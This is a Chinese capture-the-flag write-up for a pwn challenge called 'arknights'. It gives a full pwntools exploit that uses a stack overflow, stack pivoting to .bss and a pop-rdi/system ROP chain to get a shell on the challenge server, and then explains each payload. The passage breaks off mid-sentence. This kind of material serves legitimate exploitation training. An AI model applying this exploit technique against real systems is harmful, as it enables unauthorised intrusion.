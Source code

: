 ```yaml
---
typora-copy-images-to: ./images
---
```


## arknights

栈迁移+read读

先贴exp：

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'gz.imxbt.cn'
post = 20998
#p = process('./pwn')
p = remote(host,post)
elf = ELF('./pwn')
#libc = ELF('./pwn')
#gdb.attach(p)

pop_rdi = 0x00000000004018e5
leave = 0x0000000000401393
sys = 0x000000000401130
read = 0x0000000004018A8

p.sendline(b' ')
p.sendline(b'4')
p.sendline(b'1')
payload = b'a'*0x40+p64(elf.bss(0x408))+p64(read)
pause()
p.send(payload)
pause()
payload2 = b'/bin/sh\x00'*0x8+p64(0)+p64(pop_rdi)+p64(elf.bss(0x400-0x20))+p64(sys)
pause()
p.send(payload2)
pause()
p.sendline('exec 1>&0')
p.interactive()
```

前面抽卡那里没什么问题，直接跳过

![image-20250409222505750](./images/image-20250409222505750.png)

这里可以看到`read(0,s,0x60)`这里存在栈溢出，溢出了0x20字节，并且执行`system`指令，那么我们的利用思路就很清晰了：

覆写rbp为bss段地址->利用read函数将`/bin/sh`写入`bss`段(这里vmmap看过了，bss段可写)->通过`pop rdi`执行`/bin/sh`

```python
payload = b'a'*0x40+p64(elf.bss(0x408))+p64(read)
```

`elf.bss(offset)`函数：返回值为`int`,为`.bss`段的地址，加上特定的offset。在这里就是返回到`bss段+0x408`的位置

![image-20250410163130779](./images/image-20250410163130779.png)

这里调试可以看到，我们将rbp覆盖为了bss段某个地址，接下来就是执行read相关的指令，且read将读入的内容存放在`rbp-0x40`处

```python
payload2 = b'/bin/sh\x00'*0x8+p64(0)+p64(pop_rdi)+p64(elf.bss(0x400-0x20))+p64(sys)
```

接下来因为调用的还是这个`read(0,s,0x60)`，所以先填充0x40字节的`/bin/sh\x00`到bss段，接下来再次覆盖rbp为0，执行pop_rdi，弹出bss段+0x400-0x20处的内容（这里减0x20是因为
